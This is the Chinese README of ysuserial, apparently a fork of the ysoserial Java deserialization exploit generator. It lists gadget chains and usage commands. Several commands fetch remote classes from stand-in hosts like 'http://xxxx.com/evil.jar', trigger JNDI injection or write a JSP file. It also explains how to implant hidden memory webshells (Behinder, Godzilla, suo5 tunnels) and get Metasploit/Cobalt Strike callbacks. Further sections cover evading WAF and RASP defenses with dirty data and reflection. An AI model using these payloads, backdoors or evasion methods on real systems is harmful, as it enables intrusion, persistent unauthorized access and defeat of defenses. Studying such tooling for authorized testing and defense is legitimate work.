# [  ysuserial  ]

<p>
  
  
  
  
</p>

项目支持利用链展示：

```text
$ java -jar ysuserial-<version>-su18-all.jar
            _.-^^---....,,--
       _--                  --_
      <                        >)
      |       Y Su Serial ?     |
       \._                   _./
          ```--. . , ; .--'''
                | |   |
             .-=||  | |=-.
             `-=#$%&%$#=-'
                | ;  :|
       _____.,-#%&$@%#&#~,._____
     _____.,[ 暖风熏得游人醉 ],._____
     _____.,[ 直把杭州作汴州 ],._____
[root]#~  A Mind-Blowing Tool Collected By [ su18@javaweb.org ]
[root]#~  Shout Out to Yzmm / Shxjia / Y4er / N1nty / C0ny1 / Phith0n / Kezibei
[root]#~  AND OF COURSE TO THE All MIGHTY @frohoff
[root]#~  Usage: java -jar ysoserial-[version]-su18-all.jar -g [payload] -p '[command]' [options]
[root]#~  Available payload types:
log4j:WARN No appenders could be found for logger (org.reflections.Reflections).
log4j:WARN Please initialize the log4j system properly.
log4j:WARN See http://logging.apache.org/log4j/1.2/faq.html#noconfig for more info.
     Payload                                     Authors                                Dependencies
     -------                                     -------                                ------------
     AspectJWeaver                               @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     AspectJWeaver2                                                                     aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1                                  @pwntester, @cschneider4711            bsh:2.0b5
     BeanShell20b4                                                                      bsh:2.0b4
     C3P0                                        @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     C3P02                                                                              c3p0:0.9.5.2, mchange-commons-java:0.2.11, tomcat:8.5.35
     C3P03                                                                              c3p0:0.9.5.2, mchange-commons-java:0.2.11, tomcat:8.5.35, groovy:2.3.9
     C3P04                                                                              c3p0:0.9.5.2, mchange-commons-java:0.2.11, tomcat:8.5.35, snakeyaml:1.30
     C3P092                                      @mbechler                              c3p0:0.9.2-pre2-RELEASE ~ 0.9.5-pre8, mchange-commons-java:0.2.11
     Click1                                      @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure                                     @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1                           @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils1183NOCC                                                           commons-beanutils:1.8.3
     CommonsBeanutils2                                                                  commons-beanutils:1.9.2
     CommonsBeanutils2183NOCC                                                           commons-beanutils:1.8.3, commons-logging:1.2
     CommonsBeanutils3                                                                  commons-beanutils:1.9.2, commons-collections:3.1
     CommonsBeanutils3183                                                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils4                                                                  commons-beanutils:1.9.2, commons-collections:3.1
     CommonsBeanutilsAttrCompare                 @水滴                                    commons-beanutils:1.9.2
     CommonsBeanutilsAttrCompare183              @SummerSec                             commons-beanutils:1.8.3
     CommonsBeanutilsObjectToStringComparator    @水滴                                    commons-beanutils:1.9.2, commons-lang3:3.10
     CommonsBeanutilsObjectToStringComparator183 @SummerSec                             commons-beanutils:1.8.3, commons-lang3:3.10
     CommonsBeanutilsPropertySource              @SummerSec                             commons-beanutils:1.9.2, log4j-core:2.17.1
     CommonsBeanutilsPropertySource183           @SummerSec                             commons-beanutils:1.9.2, log4j-core:2.17.1
     CommonsCollections1                         @frohoff                               commons-collections:3.1
     CommonsCollections10                                                               commons-collections:3.2.1
     CommonsCollections11
     CommonsCollections2                         @frohoff                               commons-collections4:4.0
     CommonsCollections3                         @frohoff                               commons-collections:3.1
     CommonsCollections4                         @frohoff                               commons-collections4:4.0
     CommonsCollections5                         @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6                         @matthias_kaiser                       commons-collections:3.1
     CommonsCollections6Lite                     @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7                         @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     CommonsCollections8                         @navalorenzo                           commons-collections4:4.0
     CommonsCollections9                                                                commons-collections:3.2.1
     CommonsCollectionsK1                        @KORLR                                 commons-collections:<=3.2.1
     CommonsCollectionsK2                        @KORLR                                 commons-collections4:4.0
     FileUpload1                                 @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1                                     @frohoff                               groovy:2.3.9
     Hibernate1                                  @mbechler                              hibernate-core:4.3.11.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2, dom4j:1.6.1
     Hibernate2                                  @mbechler                              hibernate-core:4.3.11.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2, dom4j:1.6.1
     JBossInterceptors1                          @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRE8u20                                     @frohoff
     JRE8u20_2
     JRMPClient                                  @mbechler
     JRMPClient_Activator                        @mbechler
     JRMPClient_Obj                              @mbechler
     JRMPListener                                @mbechler
     JSON1                                       @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1                              @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21                                     @frohoff
     Jdk7u21variant                              @potats0
     Jython1                                     @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1                               @matthias_kaiser                       js:1.7R2
     MozillaRhino2                               @_tint0                                js:1.7R2
     Myfaces1                                    @mbechler
     Myfaces2                                    @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0, mockito-core:1.10.19, hamcrest-core:1.1, objenesis:2.1
     ROME                                        @mbechler                              rome:1.0
     ROME2                                                                              rome:1.0
     ROME3                                       @Firebasky                             rome:1.0
     SignedObject
     Spring1                                     @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2                                     @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     Spring3                                                                            spring-tx:5.2.3.RELEASE, spring-context:5.2.3.RELEASE, javax.transaction-api:1.2
     URLDNS                                      @gebl
     Vaadin1                                     @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1                                     @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4


usage: ysoserial-[version]-su18-all.jar [-ch <arg>] [-dcfp <arg>] [-dl <arg>] [-dt <arg>] [-et] [-f <arg>] [-g <arg>] [-gen] [-gzk <arg>]
       [-h] [-hk <arg>] [-ht <arg>] [-hv <arg>] [-i] [-j] [-mcl] [-n <arg>] [-ncs] [-o] [-p <arg>] [-pw <arg>] [-u <arg>]
       
 -g,--gadget <arg>                           Java deserialization gadget
 -p,--parameters <arg>                       Gadget parameters
 -u,--url <arg>                              MemoryShell binding url pattern,default [/version.txt]
 -pw,--password <arg>                        Behinder or Godzilla password,default [p@ssw0rd]
 -gzk,--godzilla-key <arg>                   Godzilla key,default [key]
 -hk,--header-key <arg>                      MemoryShell Header Check,Request Header Key,default [Referer]
 -hv,--header-value <arg>                    MemoryShell Header Check,Request Header Value,default [https://su18.org/]
 -ch,--cmd-header <arg>                      Request Header which pass the command to Execute,default [X-Token-Data]
 -h,--hide-mem-shell                         Hide memory shell from detection tools (type 2 only support SpringControllerMS)
 -ht,--hide-type <arg>                       Hide memory shell,type 1:write /jre/lib/charsets.jar 2:write /jre/classes/
 -f,--file <arg>                             Write Output into FileOutputStream (Specified FileName)
 -gen,--gen-mem-shell                        Write Memory Shell Class to File
 -i,--inherit                                Make payload inherit AbstractTranslet or not (Lower JDK like 1.6 should inherit)
 -j,--jboss                                  Using JBossObjectInputStream/ObjectOutputStream
 -mcl,--mozilla-class-loader                 Using org.mozilla.javascript.DefiningClassLoader in TransformerUtil
 -n,--gen-mem-shell-name <arg>               Memory Shell Class File Name
 -ncs,--no-com-sun                           Force Using org.apache.XXX.TemplatesImpl instead of com.sun.org.apache.XXX.TemplatesImpl
 -o,--obscure                                Using reflection to bypass RASP
 -dcfp,--define-class-from-parameter <arg>   Customize parameter name when using DefineClassFromParameter
 -dt,--dirty-type <arg>                      Using dirty data to bypass WAF，type: 1:Random Hashable Collections/2:LinkedList Nesting/3:TC_RESET in Serialized Data
 -dl,--dirty-length <arg>                    Length of dirty data when using type 1 or 3/Counts of Nesting loops when using type 2
 -et,--encrypted-transcoder                  Encode By EncryptedTranscoder

Recommended Usage: -g [payload] -p '[command]' -dt 1 -dl 50000 -o -i
If you want your payload being extremely short，you could just use:
java -jar ysoserial-[version]-su18-all.jar -g [payload] -p '[command]'
```

# 利用方式

在原版的利用方式中，对于使用 TemplatesImpl 的利用方式，仅使用了单一的 `java.lang.Runtime.getRuntime().exec()` 执行任意命令；对于使用 ChainedTransformer
的利用方式，也是仅 chain 了一个 Runtime exec，再漏洞利用上过于局限且单一，因此本项目在原版项目基础上扩展了不同的利用方式以供在实战环境中根据情况选择。

## 针对 TemplatesImpl

原版仅使用了 Runtime 的命令执行方式，这里对其进行深度的扩展，并植入了多种内存马的功能。

### 扩展攻击-内存马及回显

如果使用这些利用链进行攻击，本项目内置了一些高级扩展用法，命令均使用 `EX-` 开头，包括内存马、命令执行回显等，具体如下：

命令执行回显：

- 命令 `EX-AllEcho`：DFS 找 Request 命令执行回显
- 命令 `EX-TomcatEcho`：Tomcat 命令执行回显
- 命令 `EX-SpringEcho`：Spring 命令执行回显
- 命令 `EX-JbossEcho`：Jboss 命令执行回显

解决 Shiro Header 头部过长问题：

- 命令 `EX-DefineClassFromParameter`：从 request 中获取指定参数的值进行类加载

内存马：

- 命令 `EX-MS-SpringInterceptorMS-...`：向系统内植入 Spring 拦截器类型的内存马
- 命令 `EX-MS-SpringControllerMS-...`：向系统内植入 Spring Controller 类型的内存马
- 命令 `EX-MS-SpringWebfluxMS-...`：向系统内植入 Spring WebFilter 类型的内存马（仅支持 gz 及 cmd）
- 命令 `EX-MS-TFMSFromJMX-...`：利用 JMX MBeans 向系统内植入 Tomcat Filter 型内存马
- 命令 `EX-MS-TFMSFromRequest-...`：通过在线程组中找 Request 向系统内植入 Tomcat Filter 型内存马
- 命令 `EX-MS-TFMSFromThread-...`：通过线程类加载器获取指定上下文向系统内植入 Tomcat Filter 型内存马
- 命令 `EX-MS-TLMSFromThread-...`：通过线程类加载器获取指定上下文向系统内植入 Tomcat Listener 型内存马
- 命令 `EX-MS-TSMSFromJMX-...`：利用 JMX MBeans 向系统内植入 Tomcat Servlet 型内存马
- 命令 `EX-MS-TSMSFromRequest-...`：通过在线程组中找 Request 向系统内植入 Tomcat Servlet 型内存马
- 命令 `EX-MS-TSMSFromThread-...`：通过线程类加载器获取指定上下文向系统内植入 Tomcat Servlet 型内存马
- 命令 `EX-MS-JBFMSFromContext-...`：通过全局上下文向系统内植入 JBoss/Wildfly Filter 型内存马
- 命令 `EX-MS-JBSMSFromContext-...`：通过全局上下文向系统内植入 JBoss/Wildfly Servlet 型内存马
- 命令 `EX-MS-JFMSFromJMX-...`：利用 JMX MBeans 向系统内植入 Jetty Filter 型内存马
- 命令 `EX-MS-JSMSFromJMX-...`：利用 JMX MBeans 向系统内植入 Jetty Servlet 型内存马
- 命令 `EX-MS-RFMSFromThread-...`：通过线程类加载器获取指定上下文系统内植入 Resin Filter 型内存马
- 命令 `EX-MS-RSMSFromThread-...`：通过线程类加载器获取指定上下文系统内植入 Resin Servlet 型内存马
- 命令 `EX-MS-WSFMSFromThread-...`：通过线程类加载器获取指定上下文系统内植入 Websphere Filter 型内存马
- 命令 `EX-MS-RMIBindTemplate-...`：RMI 型内存马

目前支持的直打内存马的类型包括 Tomcat、Jetty、JBoss/Wildfly、Websphere、Resin、Spring。

并可以通过关键字指定内存马的类型，如冰蝎内存马、哥斯拉 Base64 内存马、哥斯拉 RAW 内存马、CMD 命令回显马等，使用方法例子如下：

- `EX-MS-TSMSFromThread-bx`：`冰蝎` 逻辑内存马
- `EX-MS-TSMSFromThread-gz`：`哥斯拉` Base64 逻辑内存马
- `EX-MS-TSMSFromThread-gzraw`：`哥斯拉` RAW 逻辑内存马
- `EX-MS-TSMSFromThread-cmd`：`CMD` 命令回显内存马
- `EX-MS-TSMSFromThread-suo5`：`suo5` suo5 隧道马

另外还本项目目前支持了 Tocmat WebSocket、Upgrade 以及 Executor 命令执行内存马，暂未扩展成多种类型（因为相关工具不支持，需魔改），使用方法例子如下：

- `EX-MS-TWSMSFromThread` : `CMD` 命令回显 WebSocket 内存马
- `EX-MS-TEXMSFromThread` : `CMD` 命令回显 Executor 内存马
- `EX-MS-TUGMSFromJMX` : `CMD` 命令回显 Upgrade 内存马

对于一些非常规的环境，本项目还提供了基于 Java 原生的 RMI 内存马及命令回显方式，通过向 RMI 注册中心绑定一个恶意类，可以随时调用执行命令并回显，使用方法例子如下：

- `EX-MS-RMIBindTemplate-1100-su18`: `CMD` 命令回显 RMI 内存马

无文件落地的 Agent 型内存马，通过修改系统关键类字节码，植入内存马，无任何文件落地，全程在内存操作，能绕过多种防护和检测，使用方式 `EX-Agent-Lin/Win-Filter/Servlet-bx/gzraw/gz/cmd`，目前区分 Win/Lin 操作系统，并支持了 Servlet、Tomcat Filter 型内存马，将会持续更新一些 Hook 点，使用方式例如：

- `EX-Agent-Lin-Filter-bx`：在 Linux 系统上对 Tomcat Filter 修改类字节码的冰蝎 Agent 型内存马

本工具支持的全部内存马经过测试可用，但实际受到中间件版本的限制，对于内存马的相关测试，可以参考项目 [https://github.com/su18/MemoryShell](https://github.com/su18/MemoryShell)

这里就不一一测试截图了，欢迎大家进行测试，如果问题请按文档最后的联系方式联系我。

## 针对 ChainedTransformer

本项目为其拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()`
  来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#d2hvYW1p`
- PB ：ProcessBuilder 通过 `ProcessBuilder.start()` 来执行系统命令，使用命令 `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p`
  分别在不同操作系统执行命令
- SE ：ScriptEngine - 通过 `ScriptEngineManager.getEngineByName('js').eval()` 来解析 JS 代码调用 Runtime
  执行命令，使用命令 `SE-d2hvYW1`
- DL ：DNS LOG - 通过 `InetAddress.getAllByName()` 来触发 DNS 解析，使用命令 `DL-xxxdnslog.cn`
- HL ：HTTP LOG - 通过 `URL.getContent()` 来触发 HTTP LOG，使用命令 `HL-http://xxx.com`
- BC ：BCEL Classloader - 通过 `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL
  类字节码，使用命令 `BC-$BCEL$xxx`，也可以使用 `BC-EX-TomcatEcho` 或 `BC-LF-/tmp/aaa.class` 来执行高级功能
- JD ：JNDI Lookup - 通过 `InitialContext.lookup()` 来触发 JNDI 注入，使用命令 `JD-ldap://xxx/xx`
- 其他：普通命令执行 - 通过 `Runtime.getRuntime().exec()` 执行系统命令，使用命令 `whoami`

这里需要注意的是，使用 PB 执行系统命令、WF 写入文件的内容、SE 执行命令时，为了防止传参错误，需要<font color="purple">对传入的命令使用
base64 编码</font>。

除了上面的利用，项目也通过 ScriptEngineManager 执行 JS 的方式支持了 `EX-` 的写法，也就是说针对 ChainedTransformer 利用方式也可以打入内存马或回显。

**命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```

效果图：



**DNSLOG示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'DL-xxx.org'
```

效果图：



**脚本引擎解析 JS 代码示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：



**文件写入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```

效果图：



**触发 JNDI 查询注入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：



**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'
```

效果图：



### 任意自定义代码

如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 ClassLoader

[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)

示例：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections3 -p LF-/tmp/evil.class
```

效果图：



### 普通命令执行

最后是普通的执行命令，直接输入待执行的命令即可。

**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils2 -p 'open -a Calculator.app'
```

效果图：


## URLDNS 探测目标类

为了解决有反序列化利用点但是无链可用的状态，本项目提供了基于 URLDNS 探测目标类的功能。这条链会根据目标环境中不同的类是否存在来判断系统环境、依赖版本，主要包含如下表格中的内容：

| DNSLOG 关键字                               | 对应链                  | 关键类                                                       | 备注                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />需要<=3.2.1版本             |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4链<br />需要4-4.0版本                   |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x为-3490850999041592962<br />1.9x为-2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8为7387108436934414104<br />0.9.5pre9-0.9.5.5为7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver,需要cc31                                       |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4为4949939576606791809<br />2.0b5为4041428789013517368<br />2.0.b6无法反序列化 |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x为-8137949907733646644<br />2.3.x为1228988487386910280  |
| becl                                        | Becl                    | com.sun.org.apache.bcel.internal.util.ClassLoader            | JDK<8u251                                                    |
| Jdk7u21                                     | Jdk7u21                 | com.sun.corba.se.impl.orbutil.ORBClassLoader                 | JDK<=7u21                                                    |
| JRE8u20                                     | JRE8u20                 | javax.swing.plaf.metal.MetalFileChooserUI\$DirectoryComboBoxModel\$1 | 7u25<=JDK<=8u20<br />这个检测不完美,8u25版本以及JDK<=7u21会误报<br />可综合Jdk7u21来看 |
| linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux版本判断                                        |
|                                             | all                     |                                                              | 全部检测                                                     |

本项目参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：

- 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
- 反序列化流程中由于种种情况报错可能导致出不来。

因此这里还是提供了 all/common/指定类 三种探测方式：

- all：探测全部的类；
- common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
- 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

示例：`all:xxxxxx.dns.log`

```shell
java -jar ysuserial-<version>-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```

效果图：



## 其他利用链的拓展

对于 BeanShell1 及 Clojure 这两个基于脚本语言解析的漏利用方式。

本项目为这两条利用链拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#123`
- 其他：普通命令执行 - 通过 `ProcessBuilder().start()` 执行系统命令，使用命令 `whoami`

与之前的扩展类似，这里也不放截图了。

对于 BeanShell1，还通过 ScriptEngineManager 执行 JS 的方式支持回显或内存马的打入。使用方式同上：`EX-`

## MSF/CS 上线

使用 MSF 的上线载荷配合远程 Jar 包调用完成 MSF 上线，后续可转 CS。

**示例**：



# 内存马的使用

针对项目中一键打入的各种内存马，这里提供了通用的利用方式。

## 命令执行及后门类

对于植入的内存马及恶意逻辑，首先为了隐藏内存马，通过逻辑进行了判断，需要在请求 Header 中添加 `Referer: https://su18.org/ `，其次执行不同的逻辑：
这个校验的 header 头部和值可以通过 `-hk "Referer" -hv "https://su18.org/"` 来进行自定义指定。

1. 如果是 <font color="orange">CMD</font> 内存马，程序会从 `X-Token-Data` 中读取待执行的命令，并将执行结果进行回显，这个头部可以通过 `-ch "testecho"` 来指定。
   

2. 如果是 <font color="orange">冰蝎 Shell</font> 内存马，可使用冰蝎客户端进行连接管理，密码 `p@ssw0rd`, 可以通过 `-pw "1qaz@WSX"` 来指定。

   

3. 如果是 <font color="orange">哥斯拉 shell</font> 内存马，可使用哥斯拉客户端进行连接管理，pass 值设为 `p@ssw0rd`，key 设为 `key`，哥斯拉内存马同时支持了 RAW 和 Base64,可以通过 `-pw "1qaz@WSX" -gzk "evilkey"` 来指定。

   

4. 如果是 <font color="orange"> suo5 </font> 内存马，则会直接创建一个 suo5 隧道，可以直接由 suo5 客户端进行连接，suo5 目前对支持了对自定义 Header 头部进行鉴权，生成时可以通过参数 `-hk "User-Agent" -hv "aaaawww"` 指定，如下可正常连接：

   

   在配置中进行配置。

   

   项目地址：[https://github.com/zema1/suo5](https://github.com/zema1/suo5)，此项目还在积极更新中，会不定期更新相关代码支持相关功能。

5. 如果是 <font color="orange"> WebSocket </font> 内存马，可使用 WebSocket 客户端进行链接，路径为 `/version.txt`，可以使用 `-u "/aaa"` 来指定。

   

6. 如果是 <font color="orange"> Tomcat Executor </font> 内存马，程序会从 Header 中的 `X-Token-Data` 中读取待执行的命令，并将执行结果在 Header `Server-token` 进行 Base64encode 回显，可以使用 `-ch "testecho"` 来指定。

   

7. 如果是 <font color="orange"> Tomcat Upgrade </font> 内存马，需要指定 `Connection: Upgrade` 以及 `Upgrade: version.txt`，程序会从 Header 中的 `X-Token-Data` 中读取待执行的命令，并将结果放回 response 中回显，可以使用 `-u "/aaa" -ch "testecho"` 来指定。

   

## Echo 类

对于 Echo 类的回显，是基于在线程组中找到带有指定 Header 头部的请求、执行命令并回显的利用方式。

使用时在 Header 中加入 `X-Token-Data` ，其值为待执行的命令，命令执行结果将回显在 response 中。

这个 Header 可以通过 `-ch "testecho"` 来指定。

效果图：



## RMI 内存马

对于 RMIBindTemplate
是在目标服务器上的指定端口启动注册中心（如果没有），并向其中绑定恶意的后门类，配合 `org.su18.ysuserial.exploit.RMIBindExploit`
进行命令执行



# 防御的绕过

这部分不涉及使用方式，只是简单的描述一下项目中所使用的绕过方式供大家了解。

## 流量层面

对于冰蝎和哥斯拉，他们自己在流量和Java层都有很多可以提取的特征，这里没有办法去管控，需要各位自行去魔改，其实也并不难。本项目把一些大家实现的比较类似的一些特征进行了去除。

在一些情况下，流量层的 WAF 会在对流量数据包解析时对关键字、关键特征进行匹配，例如反序列化流量包中出现的一些关键类的包名、类名，但是流量设备受限于性能影响，不会无限制的解析请求包，可能会影响到实际业务，因此一般会有解析的`时间`
上或`长度`上的阈值，超过该阈值，将放弃检查。

因此本项目添加了为反序列化数据添加脏数据用来绕过流量层面的 WAF 的功能，在生成反序列化数据时，指定 -dt 参数，即可根据不同类型生成封装后的带有随机脏字符的反序列化数据包。

例如：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils1 -p 'EX-MS-TEXMSFromThread' -dt 1 -dl 50000
```

可以生成填充了 50000 个脏字符的序列化数据



## RASP 层面

对于漏洞执行常使用的 Runtime、URLClassLoader 等，很多 RASP 都进行了 Hook，在攻击时可能会被拦截，这里我使用了一些反射调用 native 方法之类的技术去尝试 RASP
的防御，具体的技术实现就不细说了，感兴趣的朋友可以反编译 jar 包查看相关代码。 可以使用 -o 参数指定使用绕过 RASP 的相关技术。

~~这里由于发现还有的不讲武德的防御方式在类加载时进行包名的黑名单的匹配，对例如 rebeyond/metasploit 之类的关键字进行了防御，因此本项目只用了个人的域名前缀包名 `org.su18`
，据我了解目前还没有人针对我这个包名进行防御，如果未来被加入了豪华黑名单大礼包，我会更新可以生成自定义包名的版本。~~

目前已支持动态生成混淆的类名，不存在任何 `org.su18` 关键字。

# Exploit

目前项目对 exploit 目录下的利用方式已经完全支持，除了单独的参数外，其余参数与 payload 的参数保持一致：

```shell
java -cp ysuserial-<version>-su18-all.jar org.su18.ysuserial.exploit.JRMPListener 8888 -g CommonsCollections1 -p whoami
```

# 参考

本项目参考了若干其他项目，包括但不限于：

- [https://github.com/woodpecker-framework/ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)
- [https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [https://github.com/kezibei/Urldns/](https://github.com/kezibei/Urldns/)

有兴趣的伙伴可以自行查看。

# 更新

在可预见的未来内会更新如下功能，敬请期待：

- 加载 CS shellcode（还没学会）；
- 持续绕过各种防护（我是实验室黑客，实战还没学会）。

或者你有什么其他的想法或需求，可以与我进行联系。

# 提问与交流

本项目全部利用链<font color="red">全部功能</font>以及<font color="red">全部利用链</font>都经过本人本地环境的完整测试。但考虑到实际环境复杂，在实际使用中还可能遇到各种各样的问题，欢迎大家一起测试，提出 ISSUES。

如果在项目使用时遇到任何问题，欢迎添加微信 K_MnO4 （高锰酸钾） ，或邮件 su18@javaweb.org 进行交流。

关于 Java 安全的任意问题也可以与我进行交流，欢迎进入 [JavaSec](https://javasec.org/) 交流群进行交流。

# 免责声明

根据《中华人民共和国网络安全法》第十二条规定：任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一。

本程序应仅用于授权的安全测试与研究目的。任何未经授权的网络攻击行为会被认定为违法犯罪，将会受到法律的严厉制裁。

# 备注

如果编译项目拷贝到其他位置在使用时报错找不到某些依赖的情况，可以使用 `-Djava.ext.dirs` 参数指定依赖目录，例如：

```shell
java -Djava.ext.dirs=/Users/su18/JavaProjects/ysoserial/lib -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils1 -p "EX-MS-TWSMSFromThread-cmd"
```
